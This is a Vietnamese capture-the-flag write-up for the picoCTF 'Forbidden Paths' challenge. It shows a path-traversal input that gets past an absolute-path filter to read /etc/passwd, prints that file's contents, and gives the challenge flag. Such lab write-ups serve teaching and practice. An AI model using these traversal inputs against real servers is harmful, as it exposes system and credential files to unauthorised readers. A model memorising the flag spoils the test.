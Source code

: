 # Write-up : Forbidden Paths 
---
### Description :
> Can you get the flag?
> We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
### Hint :
> none
---
### Solution :
- Ngay từ mô tả của bài ta có thể thấy 1 đường dẫn `` /usr/share/nginx/html/ ``, nhìn khá là quen mắt
- Có thể đó là 1 đường dẫn đến thư mục html của linux, tôi thử tìm đường dẫn đó trong linux thì có xuất hiện và tôi thử mở 1 file trong đường dẫn đó thì trên trình duyệt có đường dẫn là ``` file:///usr/share/nginx/html/index.html ```
- Thử đọc các file cho sẵn thì hoàn toàn bình thường nhưng đọc file /flag.txt thì hoàn toàn không được vì bị filter đi 
#### Kết luận : có cho phép người dùng đọc file từ 1 đường dẫn URL đến file đó ( dự đoán ) 
> Nếu đọc file qua đường dẫn URL và dùng linux thì có khả năng bị `` Path Traversal ``
> Ta biết thêm website ở trong đường dẫn `` /usr/share/nginx/html/ ``

Test thử với đường dẫn URL là `` file:///../../../../etc/passwd `` thì có kết quả trả về là :
> Vì có khả năng các thư mục được lưu từ vị trí của website trở đi nên tôi đoán rằng file `` /etc/passwd `` có thể là cùng cấp với cấp thư mục con của đường dẫn đó.
```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
Tuyệt vời! 
Vậy thì lỗi `` Path Traversal `` có hoạt động, việc của chúng ta bây giờ chỉ cần tìm file `` /flag.txt ``
Thử với đường dẫn : ``` file:///../../../../flag.txt ``` thì ta nhận được flag của bài.
### Flag : `` picoCTF{7h3_p47h_70_5ucc355_6db46514} `` 
